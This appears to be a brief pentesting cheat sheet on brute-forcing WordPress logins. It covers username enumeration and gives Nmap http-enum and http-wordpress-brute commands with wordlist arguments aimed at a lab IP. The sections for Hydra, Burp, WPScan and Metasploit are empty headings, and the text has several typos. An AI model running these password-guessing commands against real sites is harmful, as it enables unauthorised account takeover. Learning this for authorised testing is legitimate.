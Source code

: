 # Wordpress Brute Forcing

## First step is to enumerate users

* Default username "admin".
* If not then use an intelligent userlist using "cewl" or common usernames using seclists. To enumerate valid usernames.
* Verify the enumerate usernames

## Nmap : Wordpress login brute force

* The nmap automatically discovers the exact login page using `nmap -p80 --script http-enum 192.168.1.17`

`nmap –sV --script http-wordpress-brute --script-args 'userdb=/root/Desktop/login.txt,passdb=/root/Desktop/pass.txt, http-wordpress-brute.hostname=domain.com,http-wordpress-brute.thread=3,brute.firstonly=true' 192.168.1.17`

## Hydra : Wordpress login brute force

## Brup Suite : Wordpress login Brute force

## WPScan : Wordpress login Brute force

## Metasploit : Wordpress loign Brute force







